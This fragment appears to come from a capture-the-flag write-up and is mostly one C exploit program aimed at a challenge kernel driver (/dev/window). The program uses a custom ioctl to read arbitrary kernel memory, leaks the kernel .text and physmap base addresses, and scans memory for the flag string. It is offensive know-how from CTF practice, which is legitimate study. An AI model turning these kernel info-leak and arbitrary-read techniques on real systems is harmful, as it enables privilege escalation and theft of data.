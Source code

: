 Final exploit:

```c  
#include <stdio.h>  
#include <stdlib.h>  
#include <inttypes.h>  
#include <sys/types.h>  
#include <sys/stat.h>  
#include <fcntl.h>  
#include <unistd.h>  
#include <sys/ioctl.h>  
#include <string.h>

typedef struct request_s {  
   uint64_t kptr;  
   uint8_t buf[256];  
} request_t;

int main()  
{  
   request_t req = {0};  
   uint64_t kernel_text = 0;  
   uint64_t offt = 0;

   int fd = open("/dev/window", O_RDWR);  
   if (fd < 0) {  
       return -1;  
   }

   req.kptr = 0xfffffe0000002f50;  
   if (ioctl(fd, 0x1337, &req)) {  
       return -1;  
   }

   kernel_text =  ((uint64_t* )req.buf)[0] - 0x1000b59;  
   printf("[!] kernel .text found at %lx\n", kernel_text);  
   printf("[!] physmap at %lx\n", kernel_text + 0x2c3b000);

   while (1) {  
       req.kptr = kernel_text + 0x2c00000 + offt;  
       if (ioctl(fd, 0x1337, &req)) {  
           return -1;  
       }

       for (size_t i = 0; i < 0x100; i += 4) {  
           if (!memcmp(req.buf+i, "ictf", 4)) {  
               printf("flag: %s\n", (char* )(req.buf+i));  
           }  
       }

       offt += 0x100;  
   }

   close(fd);  
   return 0;  
}  
```
